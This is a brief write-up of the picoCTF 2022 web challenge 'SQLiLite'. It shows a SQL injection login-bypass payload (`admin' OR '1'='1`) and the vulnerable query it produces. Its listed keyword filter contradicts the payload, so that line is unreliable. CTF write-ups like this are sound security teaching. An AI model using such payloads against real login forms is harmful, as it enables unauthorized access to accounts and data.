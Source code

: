 # SQLiLite

```markdown
Tags: `picoCTF2022` `Web Exploitation` `sql`
```

## **Description**

Can you login to this website?

Additional details will be available after launching your challenge instance.

<figure><img src="../.gitbook/assets/image (31) (1) (1).png" alt=""><figcaption></figcaption></figure>

The filter of this round: or and true false union like = > < ; -- /\* \*/ admin

```sql
Username: admin' OR '1'='1
password: 1
```

```sql
SELECT * FROM users WHERE name='admin' OR '1'='1' AND password='1'
```

## Flag

<figure><img src="../.gitbook/assets/image (32) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
